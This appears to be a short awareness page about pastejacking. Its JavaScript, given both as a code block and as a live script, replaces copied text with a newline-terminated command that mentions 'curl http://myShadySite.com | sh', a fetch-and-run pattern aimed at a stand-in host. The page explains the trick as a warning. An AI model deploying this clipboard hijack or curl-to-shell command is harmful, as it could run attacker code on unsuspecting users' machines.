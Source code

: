 

# Don't Copy Pate Into A Shell

When you see some shell command on the internet, do not copy it into your terminal.

Modern JavaScript Clipboard APIs allow a website to trivially overwrite what you put inside your clipboard, without the user's confirmation or permission.


Here is an example of how easy it is to perform this attack. Imagine that the red text below is a shell command you want to use.


<p id="copyme" style="background-color:red;">$ echo "looks safe to me!"</p>


Note that you don't even have to press ENTER in your terminal after pasting for the exploit to happen. The payload conveniently contains a trailing newline that does that for you!

Here is the JavaScript that is performing the exploit.

```
document.getElementById('copyme').addEventListener('copy', function(e) {
    e.clipboardData.setData('text/plain', 
        'echo "this could have been [curl http://myShadySite.com | sh]"\n'
    );
    e.preventDefault();
});
```

<script>
document.getElementById('copyme').addEventListener('copy', function(e) {
    e.clipboardData.setData('text/plain', 'echo "this could have been [curl http://myShadySite.com | sh]"\n');
    e.preventDefault();
});
</script>